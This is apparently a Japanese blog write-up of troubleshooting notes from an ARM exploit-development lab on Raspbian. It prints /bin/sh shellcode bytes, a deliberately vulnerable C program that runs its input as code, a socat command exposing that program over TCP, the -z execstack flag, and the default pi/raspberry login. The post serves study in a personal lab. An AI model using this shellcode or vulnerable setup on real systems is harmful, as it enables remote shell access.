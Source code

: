 ```yaml
---
title: "Learning ARM Exploit Developmentに取り組んでみる【詰まったところまとめ】"
emoji: "☠️"
type: "tech" # tech: 技術記事 / idea: アイデア
topics:
  - "shellcode"
  - "exploit"
published: true
---
```


http://www.alicemacs.com/ARM_Exploit/

こちらのLearning ARM Exploit Developmentに取り組むにあたって、詰まった部分などをまとめています。
本当は自分で他のシェルコードを書いてみたかったのですが、そこまでは至りませんでした。

# 準備

### 解凍に失敗する

`2020-02-13-raspbian-buster-lite.zip`を解凍するときに、VM上ではメモリが足りなくて解凍に失敗しました。
解凍後の`2020-02-13-raspbian-buster-lite.img`のサイズはおよそ`1.8G`ありますので、空き容量に注意が必要です。

### ログインができない
Raspbian環境は
```
raspberrypi login: pi
Password: raspberry
```
でログインできます。

# Crafting Shellcode

- アセンブリはRaspbianの環境上でコンパイルします

```
\x10\x00\x8f\xe2\x0b\x70\xa0\xe3\x01\x10\x21\xe0\x02\x20\x22\xe0\x07\x20\xc0\xe5\x01\x00\x00\xef\x2f\x62\x69\x6e\x2f\x73\x68\x41\x00\x00\x00\x00pi
```

### 1.3 シェルコードを用いたシェル奪取

```c:shellcode.c
#include <stdio.h>
int main()
{
  char buf[30];
  setbuf(stdout, NULL);
  printf("Give me a shellcode: ");
  fgets(buf, sizeof(buf), stdin);
  (*(void (*)())buf)();
}
```

### 挙動とコンパイルオプション
```
pi@raspberrypi:~$ socat tcp-l:8888,reuseaddr,fork exec:./shellcode
```
`shellcode`を上記のように実行するのですが、コンパイルを間違えるとうまく動きません。

```shell
pi@raspberrypi:~$ gcc shellcode.c -o shellcode
```
でコンパイルしていたところ、
```shell
$> ./solve.rb
ls ; [*] shellcode length: 28
[INFO] Switching to interactive mode
[INFO] Got EOF in interactive mode
```
このように、いつもinteractive modeに移行した後にすぐ、EOFでプログラムが終了してしまいました。

これは正しくは
```shell
pi@raspberrypi:~$ gcc -z execstack shellcode.c -o shellcode
```
のようにフラグをつけてコンパイルする必要がありました。

### `-z execstack` ?

https://stackoverflow.com/questions/29178445/what-is-the-z-option-for-in-this-gcc-compiler-command

gcc に渡している`-z`のオプションに関しては以下のように記述がありました。
> **-z keyword**
-z is passed directly on to the linker along with the keyword keyword. See the section in the documentation of your linker for permitted values and their meanings.
[source: gcc.gnu.org](https://gcc.gnu.org/onlinedocs/gcc/Link-Options.html#index-z:~:text=additional%20library%20modules.-,%2Dz%20keyword,-%2Dz%20is%20passed)

リンカに渡すためのオプションのようです。

### シェルコードをいじってみたけど失敗したので自分にはまだ早かった

- コンパイル
```shell
ARG='mycode' && as $ARG.asm -o $ARG.o && ld $ARG.o -o $ARG.bin && objdump -d $ARG.bin && rm $ARG.o
```
- シェルコード作成
```shell
objcopy -O binary $ARG.bin $ARG_hex.bin && hexdump -v -e '"\\""x" 1/1 "%02x" ""' $ARG_hex.bin
```

Thumbモードにせずに実行したら命令セットが長くて`\x00`を含むコードになってしまった。
もちろん動かなかった。
```
\x10\x00\x8f\xe2\x0b\x70\xa0\xe3\x01\x10\x21\xe0\x02\x20\x22\xe0\x07\x20\xc0\xe5\x01\x00\x00\xef\x2f\x62\x69\x6e\x2f\x73\x68\x41
```
